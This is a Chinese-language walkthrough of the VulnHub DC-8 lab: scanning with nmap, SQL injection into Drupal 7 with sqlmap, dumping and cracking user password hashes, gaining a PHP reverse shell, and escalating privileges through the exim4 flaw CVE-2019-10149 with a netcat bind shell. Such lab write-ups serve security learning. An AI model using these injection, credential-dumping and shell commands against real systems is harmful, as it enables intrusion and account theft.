



# DC8
- [参考](https://blog.csdn.net/qq_42785117/article/details/101602233?depth_1-utm_source=distribute.pc_relevant.none-task&utm_source=distribute.pc_relevant.none-task)

- [学习](https://blog.csdn.net/adminuil/article/details/102613795)

- [下载](https://www.vulnhub.com/entry/dc-8,367/)

## 扫描

```
nmap -sP 192.168.31.0/24
```


```
nmap -sT -sV -T5 -A -p- 192.168.31.23
```


开了80和22，访问80看看：


发现是 Drupal7。


？？？报错了？？？下意识输了个 `'` 再试试看 ：

```
http://192.168.31.23/?nid=1%20or%201=1--+
```

应该是存在注入，那直接拿sqlmap试试看：


存在注入，继续深入看看

```
sqlmap -r '/root/1.txt' --dbs --batch
sqlmap -r '/root/1.txt' -D d7db --tables --batch
sqlmap -r '/root/1.txt' -D d7db -T users --dump --batch
```


获得密码：
```
admin 	$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z
john 	$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
```

使用 hashcat 跑密码试试：使用自带的 rockyou.txt

```
john
turtle
```

试了之后是john的密码，admin的密码没有爆出来，登陆一下：

登陆页面：

```
http://192.168.31.23/user
```



可以编辑php代码，试着反弹shell，


这里其实是在用户提交表单时触发php代码，事先要先监听本地端口。



我们试着提交表单，shell 已连接


## 中期

先升级一下shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```
sudo存在漏洞CVE-2019-14287

使了一下，权限要求挺高的 不过不知道密码


看了大佬的wp。用到了CVE-2019-10149，再次注意到SUID。

利用脚本
```
https://www.exploit-db.com/exploits/46996
```

此脚本有两种利用方式，
1 setuid


2 netcat



在靶机上启用 netcat


 kali 上新建一个 bind shell 连接

```
nc -nv 192.168.31.23 31337
```
一直没连上，很痛苦，但是的确是做到这里就结束了。

## 总结

该靶场大致要点为： 
1. sqlmap使用
2. php回弹shell
3. exim4提权

更新笔记：
1. 提权骚操作


